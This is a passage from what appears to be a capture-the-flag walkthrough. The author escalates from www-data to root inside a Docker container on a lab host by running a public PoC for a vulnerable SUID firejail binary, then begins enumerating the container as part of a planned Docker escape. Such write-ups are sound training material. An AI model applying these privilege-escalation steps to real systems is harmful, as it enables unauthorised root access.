 This version is vulnerable to some RCE exploits, and since it is a SUID binary, we can use this to get to root. We can find a PoC on this website at the bottom of the page:

{% embed url="https://www.openwall.com/lists/oss-security/2022/06/08/10" %}

{% code overflow="wrap" %}
```
www-data@icinga:/tmp$ chmod +x firejail.py 
www-data@icinga:/tmp$ ./firejail.py 
You can now run 'firejail --join=1407' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```
{% endcode %}

We have to repeat the RCE exploit that we did previously to make this work. Then, we can run the command and be able to become root. **Take note we can just run `su -` for this to work.**

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

Great! Now we have access as root on the Linux docker.&#x20;

## Docker Escape

Now that we had root user access on the container, we can enumerate the machine further. I spent a LOT of time looking around this machine. Checking the `/opt` directory, it seems we can view some Windows files:

```
root@icinga:/opt# ls
microsoft
root@icinga:/opt# ls -la
total 12
drwxr-xr-x  3 root root 4096 Jan 23 18:24 .
drwxr-xr-x 18 root root 4096 Jan 23 18:22 ..
drwxr-xr-x  3 root root 4096 Jan 23 18:24 microsoft
root@icinga:/opt# cd microsoft/
root@icinga:/opt/microsoft# ls -la
total 12
drwxr-xr-x 3 root root 4096 Jan 23 18:24 .
drwxr-xr-x 3 root root 4096 Jan 23 18:24 ..
drwxr-xr-x 3 root root 4096 Jan 23 18:24 powershell
root@icinga:/opt/microsoft# cd powershell/
root@icinga:/opt/microsoft/powershell# ls -la
total 32
drwxr-xr-x  3 root root  4096 Jan 23 18:24 .
drwxr-xr-x  3 root root  4096 Jan 23 18:24 ..
drwxr-xr-x 20 root root 24576 Jan 23 18:26 7
root@icinga:/opt/microsoft/powershell# cd 7
root@icinga:/opt/microsoft/powershell/7# ls -la
total 182788
drwxr-xr-x 20 root root    24576 Jan 23 18:26 .
drwxr-xr-x  3 root root     4096 Jan 23 18:24 ..
-rw-r--r--  1 root root     1074 Nov 23 03:26 LICENSE.txt
-rw-r--r--  1 root root  1348536 Nov 23 04:01 Markdig.Signed.dll
<TRUNCATED>
```
